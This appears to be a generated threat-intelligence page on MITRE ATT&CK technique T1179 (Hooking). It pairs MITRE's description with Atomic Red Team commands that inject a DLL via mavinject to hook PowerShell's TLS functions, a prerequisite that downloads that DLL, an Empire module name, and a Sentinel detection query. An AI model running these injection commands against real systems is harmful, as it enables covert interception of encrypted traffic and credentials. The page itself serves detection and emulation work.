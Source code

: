 
# Hooking

## Description

### MITRE Description

> Windows processes often leverage application programming interface (API) functions to perform tasks that require reusable system resources. Windows API functions are typically stored in dynamic-link libraries (DLLs) as exported functions. 

Hooking involves redirecting calls to these functions and can be implemented via:

* **Hooks procedures**, which intercept and execute designated code in response to events such as messages, keystrokes, and mouse inputs. (Citation: Microsoft Hook Overview) (Citation: Endgame Process Injection July 2017)
* **Import address table (IAT) hooking**, which use modifications to a process’s IAT, where pointers to imported API functions are stored. (Citation: Endgame Process Injection July 2017) (Citation: Adlice Software IAT Hooks Oct 2014) (Citation: MWRInfoSecurity Dynamic Hooking 2015)
* **Inline hooking**, which overwrites the first bytes in an API function to redirect code flow. (Citation: Endgame Process Injection July 2017) (Citation: HighTech Bridge Inline Hooking Sept 2011) (Citation: MWRInfoSecurity Dynamic Hooking 2015)

Similar to [Process Injection](https://attack.mitre.org/techniques/T1055), adversaries may use hooking to load and execute malicious code within the context of another process, masking the execution while also allowing access to the process's memory and possibly elevated privileges. Installing hooking mechanisms may also provide Persistence via continuous invocation when the functions are called through normal use.

Malicious hooking mechanisms may also capture API calls that include parameters that reveal user authentication credentials for Credential Access. (Citation: Microsoft TrojanSpy:Win32/Ursnif.gen!I Sept 2017)

Hooking is commonly utilized by [Rootkit](https://attack.mitre.org/techniques/T1014)s to conceal files, processes, Registry keys, and other objects in order to hide malware and associated behaviors. (Citation: Symantec Windows Rootkits)

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: intentionally left blank
* Permissions: ['Administrator', 'SYSTEM']
* Platforms: ['Windows']
* Remote: intentionally left blank
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1179

## Potential Commands

```
mavinject $pid /INJECTRUNNING PathToAtomicsFolder\T1179\bin\T1179x64.dll
curl #{server_name}

mavinject $pid /INJECTRUNNING #{file_name}
curl https://www.example.com

powershell/collection/netripper
powershell/collection/netripper
```

## Commands Dataset

```
[{'command': 'mavinject $pid /INJECTRUNNING '
             'PathToAtomicsFolder\\T1179\\bin\\T1179x64.dll\n'
             'curl #{server_name}\n',
  'name': None,
  'source': 'atomics/T1179/T1179.yaml'},
 {'command': 'mavinject $pid /INJECTRUNNING #{file_name}\n'
             'curl https://www.example.com\n',
  'name': None,
  'source': 'atomics/T1179/T1179.yaml'},
 {'command': 'powershell/collection/netripper',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/collection/netripper',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'}]
```

## Potential Detections

```json

```

## Potential Queries

```json
[{'name': 'Hooking',
  'product': 'Azure Sentinel',
  'query': 'Sysmon| where EventID == 1and (process_path contains '
           '"mavinject.exe"or process_command_line contains "/INJECTRUNNING")'}]
```

## Raw Dataset

```json
[{'Atomic Red Team Test - Hooking': {'atomic_tests': [{'dependencies': [{'description': 'T1179x64.dll '
                                                                                        'must '
                                                                                        'exist '
                                                                                        'on '
                                                                                        'disk '
                                                                                        'at '
                                                                                        'specified '
                                                                                        'location '
                                                                                        '(#{file_name})\n',
                                                                         'get_prereq_command': 'New-Item '
                                                                                               '-Type '
                                                                                               'Directory '
                                                                                               '(split-path '
                                                                                               '#{file_name}) '
                                                                                               '-ErrorAction '
                                                                                               'ignore '
                                                                                               '| '
                                                                                               'Out-Null\n'
                                                                                               'Invoke-WebRequest '
                                                                                               '"https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1179/bin/T1179x64.dll" '
                                                                                               '-OutFile '
                                                                                               '"#{file_name}"\n',
                                                                         'prereq_command': 'if '
                                                                                           '(Test-Path '
                                                                                           '#{file_name}) '
                                                                                           '{exit '
                                                                                           '0} '
                                                                                           'else '
                                                                                           '{exit '
                                                                                           '1}\n'}],
                                                       'dependency_executor_name': 'powershell',
                                                       'description': 'Hooks '
                                                                      'functions '
                                                                      'in '
                                                                      'PowerShell '
                                                                      'to read '
                                                                      'TLS '
                                                                      'Communications\n',
                                                       'executor': {'command': 'mavinject '
                                                                               '$pid '
                                                                               '/INJECTRUNNING '
                                                                               '#{file_name}\n'
                                                                               'curl '
                                                                               '#{server_name}\n',
                                                                    'elevation_required': True,
                                                                    'name': 'powershell'},
                                                       'input_arguments': {'file_name': {'default': 'PathToAtomicsFolder\\T1179\\bin\\T1179x64.dll',
                                                                                         'description': 'Dll '
                                                                                                        'To '
                                                                                                        'Inject',
                                                                                         'type': 'Path'},
                                                                           'server_name': {'default': 'https://www.example.com',
                                                                                           'description': 'TLS '
                                                                                                          'Server '
                                                                                                          'To '
                                                                                                          'Test '
                                                                                                          'Get '
                                                                                                          'Request',
                                                                                           'type': 'Url'}},
                                                       'name': 'Hook '
                                                               'PowerShell TLS '
                                                               'Encrypt/Decrypt '
                                                               'Messages',
                                                       'supported_platforms': ['windows']}],
                                     'attack_technique': 'T1179',
                                     'display_name': 'Hooking'}},
 {'Empire Module XLSX Sheet by dstepanic': {'ATT&CK Technique #1': 'T1179',
                                            'ATT&CK Technique #2': '',
                                            'Concatenate for Python Dictionary': '"powershell/collection/netripper":  '
                                                                                 '["T1179"],',
                                            'Empire Module': 'powershell/collection/netripper',
                                            'Technique': 'Hooking'}}]
```

# Tactics


* [Credential Access](../tactics/Credential-Access.md)

* [Persistence](../tactics/Persistence.md)
    
* [Privilege Escalation](../tactics/Privilege-Escalation.md)
    

# Mitigations

None

# Actors


* [PLATINUM](../actors/PLATINUM.md)


